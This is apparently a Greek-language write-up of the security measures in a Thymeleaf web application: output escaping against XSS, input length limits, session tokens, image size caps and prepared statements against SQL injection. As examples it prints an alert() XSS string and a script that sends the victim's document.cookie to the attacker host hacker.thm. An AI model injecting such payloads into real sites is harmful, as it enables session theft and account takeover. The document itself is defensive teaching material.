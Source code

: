   
Thymeleaf th:text & th:utext για την αντιμετώπιση XSS. Η χρήση των συγκεκριμένων tags εμποδίζει την είσοδο χαρακτήρων κατα την προβολή κειμένων. Σαν τελευταίο μέτρο μπορεί να χρησιμοποιηθεί και το th:raw, αλλά προτείνεται να αποφεύγεται  
  
![](https://lh7-us.googleusercontent.com/sLz3LzxjfGAmZltg70TzbAFUp2xAylNpp5o_2Tvm5DtyxGmsvwGjB_Sx-GlFDX6Ck7FnPRZ4oSizImxvsaaFQZYi5YxRs3rhZea5wIYyj-v21kGp_-6F4CNM0KsXzrTMjii1-feZTgkxOD7u8HHCFjg)  
  
Επίσης προσθέσαμε όριο χαρακτήρων στην εφαρμογή στα html tags, για αποφυγή μεγάλων payloads, για πιο sophisticated character escapes, παράδειγμα.  
  
<script>alert('XSS');</script>  
  
  
  
![](https://lh7-us.googleusercontent.com/XllswutDFXdUvMELNdUZ-C6C1J5QbtpQomYuncC-GY7SOgD8vV0aq4XCFMkrfRh84YcuOFp2VOsgzZzPrPsI8T0k6Fx4ELcOCa2H86FzL1V9KVL9yGFgOi1IjbuqOxDFnNpNv8qFD2A4ACDEqM-NJrg)  
  
Για την αποφυγή session stealing, χρησιμοποιήσαμε session tokens. Παράδειγμα  
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
Είναι payload που στοχεύει στα session του χρήστη, όπως login tokens που αποθηκεύονται στο μηχάνημα του χρήστη και με αυτά ο αντίπαλος, μπορεί να πάρει μη εξουσιοδοτημένη πρόσβαση στον λογαριασμό του χρήστη  
  
![](https://lh7-us.googleusercontent.com/w_QJZOcJE3ebP2g0edSsyfj45rHBBByFFlE1V-oVyvAyN26fgKSgdH22rJYvW57w0762KyTcZQM0OYNwF84gmPzFE4nMHYDefguemf_ILjNN3GYzBHJd7CJnmBJK4rgIrWeuTkETKPGFw2wpDTxF1-k)  
  
Περιορίσαμε το μέγεθος byte size της εικόνας profile που μπορεί να βάλει ένας χρήστης, ώστε να μην μπορεί να μπει εσκεμένα μεγαλύτερο  
![](https://lh7-us.googleusercontent.com/vvOBgnb0ng9o89ieCOKA6X74nETPL5wGjNK60KoyWaBq2i7I_L9tHQg2pklIOMBUtr5ynIn03_l3yb_E95Z3PtKeYxjcN58rFuCwXeQI1LVE7bPNcEVvpdtUa6v4AzXZdd7RmhN6IyqMN9W24pgwZhs)  
  
SQL Injection (SQLi) Attack:

Περιγραφή: Η επίθεση SQL Injection (SQLi) εκμεταλλεύεται αδυναμίες στην επεξεργασία SQL ερωτημάτων από το σύστημα βάσης δεδομένων. Ο επιτιθέμενος εισάγει κακόβουλες εντολές SQL, εκτελώντας τις από τη βάση δεδομένων.

Πώς Λειτουργεί: Ο επιτιθέμενος εισάγει SQL εντολές μέσα σε είσοδο που αναμένεται να εκτελεστεί από τη βάση δεδομένων. Εάν οι εισόδοι δεν φιλτραριστούν σωστά, οι κακόβουλες εντολές SQL εκτελούνται.

Λύσεις:

1. Χρήση Προετοιμασμένων Δηλώσεων (Prepared Statements): Χρησιμοποίησε προετοιμασμένες δηλώσεις ή παραμετροποιημένα ερωτήματα για την αποφυγή της εκτέλεσης κακόβουλου κώδικα.
    
2. Έλεγχος Εισόδου: Επικύρωσε και κωδικοποίησε τις εισόδους χρηστών προτού εκτελεστούν στη βάση δεδομένων.
    
3. Χρήση ORM (Object-Relational Mapping): Χρησιμοποίησε ένα ORM framework όπως το Hibernate για να αποφύγεις τη χειροκίνητη κατασκευή SQL ερωτημάτων.
    
4. Περιορισμός Δικαιωμάτων της Βάσης Δεδομένων: Προσδιόρισε περιορισμένα δικαιώματα πρόσβασης στη βάση δεδομένων για τον λογαριασμό που χρησιμοποιεί η εφαρμογή.
    

  
  
Χρησιμοποιούμε prepared statements για όποια ενέργεια κάνουμε στην βάση μας, για να εμποδίσουμε επιθέσεις injection.  
  
![](https://lh7-us.googleusercontent.com/H10Q7-A1XpKcnVVQri5TliN_ftHu5lExPVbAUa1tLLTx84awXPWhaaYQwPFPUsfsxe7z_8Ho0JcCJTRpKJNRLaPZMasTkSobNJxh2WxGxW8pguHe_cLXSRKTlyVWx9p_p0ZUM8vIxiEY9l2FpXuoT38)  
![](https://lh7-us.googleusercontent.com/PP7d_McF8w28oU_OgMLvs_Ky9SLy6bXC8rRh3SPUEdSo63S7htu9XVWScVxCjWfL6swrggShBM7GCNFtzJ-K9xpZWM7LNgBQg4qFJO58UeN2JEdmdTyyNOJ-WWfnssxd7klED3nbpiWbmgjbsfV9ri0)  
  